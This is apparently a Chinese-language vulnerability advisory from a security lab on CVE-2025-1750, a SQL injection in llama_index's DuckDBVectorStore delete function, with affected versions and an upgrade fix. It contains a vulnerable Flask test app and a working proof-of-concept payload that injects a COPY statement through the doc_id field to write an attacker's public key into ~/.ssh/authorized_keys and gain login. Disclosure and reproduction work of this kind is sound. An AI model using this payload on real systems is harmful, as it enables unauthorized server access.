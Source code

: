 #  【漏洞预警】llama_index SQL注入漏洞(CVE-2025-1750)   
 源鲁安全实验室   2025-06-04 06:05  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MPS72cibJRUAAtSU29g4u3aKVgnvEM3BIJbTrOeJMeGOibxSV5JUicUc1FpNvGUVh0ISX6wyTDfNM9iakjN1tGJwEw/640?wx_fmt=png&wx_ "")  
  
此文章原创作者为源鲁安全实验室，转载请注明出处！此文章中所涉及的技术、思路和工具仅供网络安全学习为目的，不得以盈利为目的或非法利用，否则后果自行承担！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MPS72cibJRUAAtSU29g4u3aKVgnvEM3BIJbTrOeJMeGOibxSV5JUicUc1FpNvGUVh0ISX6wyTDfNM9iakjN1tGJwEw/640?wx_fmt=png&wx_ "")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BSbU8iceXVoDtkqtiaAd2ibGGCjsmJIekhNoqgj5tPRCyyicjibP3axnLfR4TOpALjzTpRVtz9qic69zWyHguNIdAXOA/640?wx_fmt=png&from=appmsg "")  
  
  
**01**  
  
漏洞描  
述  
  
  
      
run-llama/llama_index中DuckDBVectorStore的delete函数存在SQL注入漏洞。该漏洞允许攻击者操纵ref_doc_id参数，从而在服务器上读取和写入任意文件，可能导致远程代码执行 (RCE)。  
  
**02**  
  
**影响版本**  
  
  
llama_index   
< 0.3.1  
  
**03**  
  
**漏洞复现**  
  
  
      
目前，源鲁安全实验室已成功复现  
 llama_index SQL注入漏洞(CVE-2025-1750)，复现过程如下：  
  
1.搭建测试环境  
```
from flask import Flask, request, jsonify, render_template
import os
import numpy as np
from llama_index.vector_stores.duckdb import DuckDBVectorStore
from llama_index.core.schema import TextNode
app = Flask(__name__)
persist_dir = "./persist"
os.makedirs(persist_dir, exist_ok=True)
vector_store = DuckDBVectorStore("chatbot.duckdb", persist_dir=persist_dir,recreate_table=True)
def add_document(doc_id, text, category):
    embedding = np.random.rand(1536).tolist()
    text_node = TextNode(id_=doc_id, text=text, embedding=embedding, metadata={"category": category})
    vector_store.add([text_node])
add_document("doc_1", "Machine learning is amazing!", "AI")
add_document("doc_2", "Deep learning improves natural language processing.", "NLP")
add_document("doc_3", "DuckDB is great for handling large datasets.", "Database")
@app.route('/delete', methods=['POST'])
def ask():

    data = request.get_json()
    doc_id = data.get('doc_id')
    vector_store.delete(ref_doc_id=doc_id)
    return jsonify({'message': "ok"})
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=7000)
```  
  
2.安装依赖  
```
pip install flask numpy llama-index-vector-stores-duckdb
```  
  
3.启动测试环境  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BSbU8iceXVoC2vUNQpapBmj9fGpRhKsQMZdq8FDpYPKgZ5x0QGxC4U0L3icmyV27krcuLrk11icmicPqycY1v3Py7w/640?wx_fmt=png&from=appmsg "")  
  
4.构造漏洞请求  
  
漏洞POC如下：  
```
{"doc_id":"doc1';COPY (SELECT '[publickey]') TO '~/.ssh/authorized_keys';-- -"}
```  
  
修改请求并发包后Burp Suite截图如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BSbU8iceXVoC2vUNQpapBmj9fGpRhKsQMlkic59qCia6c7eRV2E3nM5N2wGvFciaJcGhrvJK12tRibNfkKSNwic5DzZQ/640?wx_fmt=png&from=appmsg "")  
  
检查 ~/.ssh/authorized_keys 文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BSbU8iceXVoC2vUNQpapBmj9fGpRhKsQMhwibOicnpjPAPOszjibMAATNJT00r0pibzk3jzCdoAdxRYbeiajNFNPEDzQ/640?wx_fmt=png&from=appmsg "")  
  
成功写入公钥，尝试登录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BSbU8iceXVoC2vUNQpapBmj9fGpRhKsQMaPqjptB5phdRiaQPmO61t8v1bbyavpu8DQlT0n6Z5TB1WelCfRDmeIA/640?wx_fmt=png&from=appmsg "")  
  
登录成功，至此漏洞复现完成  
  
  
**04**  
  
**修复建议**  
  
  
将llama_index升级至最新版本。  
  
链接：https://github.com/run-llama/llama_index  
  
**05**  
  
**引用**  
  
  
https://huntr.com/bounties/e1302233-9180-4269-9047-1526247d2cd8  
  
https://github.com/run-llama/llama_index/commit/369a2942df2efcf6b74461c45d20a0af1fbe4ae2  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BSbU8iceXVoDtkqtiaAd2ibGGCjsmJIekhNoqgj5tPRCyyicjibP3axnLfR4TOpALjzTpRVtz9qic69zWyHguNIdAXOA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BSbU8iceXVoDtkqtiaAd2ibGGCjsmJIekhNiar3jgUyo7e3ib5ZAjUGj3uqGibLQtcusq85Oy7k3IibpjCVKcx6JjsOww/640?wx_fmt=png&from=appmsg "")  
  
**END**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BSbU8iceXVoDtkqtiaAd2ibGGCjsmJIekhNGia1F0ufcUibviarnJ2oNurofFbLJvuXQ9Z7dosic5w2CelUiaTsWb3BZyg/640?wx_fmt=png&from=appmsg "")  
  
  
  
        1  
  
  
  
  
**关于源鲁安全实验室**  
    
  
源鲁安全实验室是一支以攻防研究为核心的安全团队，团队成员来源于一线攻防团队，安全研究团队。研究方向涉及  
WEB安全  
，APP安全，漏洞研究，代码审计，内网渗透，二进制，安全产品研究等多个领域，致力为客户提供一流的服务，保障客户业务安全。  
  
  
  
  
  
  
  
  
****  
**来都来了，点个赞再走吧~~~**  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/BSbU8iceXVoDtkqtiaAd2ibGGCjsmJIekhNZnyYbkP5niaaeP5AyVIRvpwicMtTH0tIPvvIZmfEQKUODb6NnKRJice6w/640?wx_fmt=gif&from=appmsg "")  
  
  
